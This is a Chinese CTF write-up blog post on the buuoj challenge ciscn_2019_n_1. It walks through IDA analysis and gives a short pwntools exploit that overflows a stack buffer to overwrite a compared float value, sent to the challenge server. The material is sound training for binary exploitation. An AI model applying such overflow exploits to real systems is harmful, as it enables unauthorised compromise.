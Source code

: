 ```yaml
---
layout:     post
title:      buuoj-ciscn部分wp
subtitle:   write up
date:       2020-08-19
author:     X1ng
header-img: buuoj819.jpg
catalog: true
tags:
    - buuoj
    - wp


---
```


突然发现2020国赛要来了，临时抱佛脚去buuoj刷一波ciscn的题

（刷着发现自己把所有的签到题都刷了

### ciscn_2019_n_1

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghnekxnch7j30oy06a0sx.jpg)

ida pro打开

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghncq6joghj31na0t4q9n.jpg)

可以看到红框内汇编代码，虽然不是很清楚指令什么意思，但大概应该是比较（f5后伪代码也确实是比较）两处内存的数据（浮点数在内存中也是通过十六进制表示的）

双击下面的`cs：dword_4007F4`可以看到

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghncs5ijrhj31nc05c0ti.jpg)

所以只要计算偏移将这个十六进制数写入内存即可

exp：

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

#p = process('./ciscn_2019_n_1')
p = remote("node3.buuoj.cn", 26194)
#gdb.attach(p,'b *0x4006AE')

p.recvuntil('\n')
payload = 'a'*0x2c+p32(0x41348000)
p.sendline(payload)

p.interactive()

```
